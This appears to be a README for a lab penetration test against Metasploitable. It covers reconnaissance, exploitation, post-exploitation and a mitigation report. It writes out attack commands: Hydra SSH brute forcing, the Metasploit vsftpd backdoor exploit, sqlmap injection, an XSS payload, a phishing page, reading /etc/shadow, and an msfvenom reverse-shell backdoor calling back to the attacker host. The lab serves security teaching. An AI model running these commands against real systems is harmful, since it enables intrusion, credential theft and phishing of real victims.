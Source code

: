 ## 1. Introduction

This project demonstrates the principles of network security and penetration testing using Kali Linux and Metasploitable. The primary objective is to identify and exploit vulnerabilities in Metasploitable’s network services, implement post-exploitation techniques, and propose mitigation strategies to secure such systems.

## 2. Phase 1: Reconnaissance - Gathering Initial Information

#### **Objective:**

Identify open ports, running services, and potential vulnerabilities on the Metasploitable machine.

#### **Tools Used:**

* **Nmap**: For comprehensive network scanning and service detection.
* **Wireshark**: For deep network traffic analysis.
* **enum4linux**: For SMB enumeration and identifying shared resources.
* **Nikto**: For web server scanning to identify vulnerabilities.
* **sqlmap**: For automated SQL injection detection and exploitation.
* **Metasploit Framework**: For exploiting vulnerabilities and post-exploitation tasks.
* **Hydra**: For performing brute force attacks on multiple services.
* **John the Ripper**: For offline password cracking and analyzing password security.
* **Burp Suite**: For web application vulnerability scanning and testing.
* **Gobuster**: For directory and file brute-forcing to discover hidden resources on web servers.

#### **Steps:**

1. Perform an initial network scan to discover open ports using advanced Nmap features:

   ```
   nmap -A [Metasploitable_IP]
   ```
2. Analyze the scan results:

   * Identify open ports (e.g., 21 for FTP, 22 for SSH, 445 for SMB, 80 for HTTP).
   * Document running services and their versions.
3. Save the scan results:

   ```
   nmap -A [Metasploitable_IP] -oN reconnaissance_results.txt
   ```
4. Use Wireshark to analyze network traffic and detect unusual patterns, protocols, or potential vulnerabilities:

   * Capture packets for further analysis.
   * Filter traffic to focus on target-specific data.
5. Use enum4linux to enumerate SMB services and identify misconfigurations, shared files, and user accounts:

   ```
   enum4linux [Metasploitable_IP]
   ```
6. Use Nikto to scan the web server for vulnerabilities:

   ```
   nikto -h http://[Metasploitable_IP]
   ```

   * Identify outdated software, misconfigurations, or default files that can be exploited.
7. Use Gobuster to brute-force hidden directories and files on the web server:

   ```
   gobuster dir -u http://[Metasploitable_IP] -w /usr/share/wordlists/dirb/common.txt
   ```

   * Discover hidden resources that might contain sensitive information or vulnerabilities.

#### **Findings:**

* Open Ports: 21 (FTP), 22 (SSH), 445 (SMB), 80 (HTTP)
* Services Detected:
  * FTP (vsftpd 2.3.4)
  * SSH (OpenSSH 4.3)
  * SMB (Samba 3.0.20)
  * HTTP (Apache 2.2.8 with PHP 5.2.4)

## 3. Phase 2: Exploiting Vulnerabilities - Taking Advantage of Weaknesses

#### **Option 1: SSH Brute Force**

1. **Objective:** Gain access via SSH by cracking weak credentials.
2. **Tool Used:**
   * Hydra
3. **Command:**
   ```
   hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://[Metasploitable_IP]
   ```
4. **Outcome:**
   * Discovered the password: `<span>123456</span>`
   * Gained SSH access as the root user.

#### **Option 2: FTP Exploits**

1. **Objective:** Exploit vulnerabilities in the FTP service.
2. **Steps:**
   * Check for anonymous login:
     ```
     ftp [Metasploitable_IP]
     ```
   * Use Metasploit to exploit vsftpd backdoor:
     ```
     use exploit/unix/ftp/vsftpd_234_backdoor
     set RHOST [Metasploitable_IP]
     exploit
     ```
3. **Outcome:**
   * Obtained a reverse shell via the FTP backdoor and used the session to map the file system, exfiltrate sensitive files, and identify further attack vectors.

#### **Option 3: HTTP Exploits**

1. **Objective:** Exploit vulnerabilities in the web application hosted on HTTP.
2. **Steps:**
   * **SQL Injection**:
     * Use sqlmap to identify and exploit SQL injection vulnerabilities by automating database queries and extracting critical information:
       ```
       sqlmap -u "http://[Metasploitable_IP]/vulnerable_page?param=value" --dbs
       ```
   * **XSS Testing**:
     * Insert test scripts (e.g., `<span><script>alert('XSS');</script></span>`) in input fields.
3. **Outcome:**
   * Retrieved sensitive database information via SQL injection.
   * Demonstrated script execution for XSS.
4. **Phishing Attack**:
   * Use Burp Suite to craft and deliver a phishing page on Apache, enhancing the sophistication of the attack:
     ```
     sudo service apache2 start
     sudo cp phishing_email.html /var/www/html/phishing.html
     ```
   * Generate a phishing link:
     ```
     echo "http://[Kali_IP]/phishing.html" | setoolkit
     ```
   * Analyze the victim’s behavior upon accessing the phishing link.

## 4. Phase 3: Post-Exploitation - Expanding Access and Persistence

#### **Objective:**

Explore the target system further, escalate privileges, and gather sensitive information.

#### **Techniques Used:**

1. **Shell Access:**
   * Managed active sessions in Metasploit and executed post-exploitation modules for credential harvesting and lateral movement:
     ```
     sessions -i [session_ID]
     ```
2. **Privilege Escalation:**
   * Checked for SUID binaries:
     ```
     find / -perm -4000 2>/dev/null
     ```
   * Exploited a misconfigured binary to gain root privileges.
3. **Data Gathering:**
   * Accessed sensitive files:
     ```
     cat /etc/passwd
     cat /etc/shadow
     ```
   * Extracted user credentials and configuration files.
4. **Maintaining Access:**
   * Created a persistent backdoor:
     ```
     msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=[Kali_IP] LPORT=4444 -f elf > backdoor.elf
     scp backdoor.elf root@[Metasploitable_IP]:/tmp
     chmod +x /tmp/backdoor.elf
     ```

## 5. Phase 4: [ Report ]

#### **Vulnerabilities and Fixes:**

1. **SSH:**
   * Use strong passwords and key-based authentication.
   * Disable root login over SSH.
2. **SMB:**
   * Apply patches for known vulnerabilities like EternalBlue.
   * Disable unused SMB versions.
3. **FTP:**
   * Disable anonymous access.
   * Use secure alternatives like SFTP.
4. **HTTP:**
   * Sanitize input to prevent SQL injection and XSS.
   * Regularly update web server and application software.
5. **Phishing Attacks:**
   * Deploy anti-phishing tools.
   * Conduct regular security awareness training.

#### **General Recommendations:**

* Use firewalls to restrict access to unnecessary services.
* Regularly update and patch systems.
* Conduct periodic vulnerability assessments.
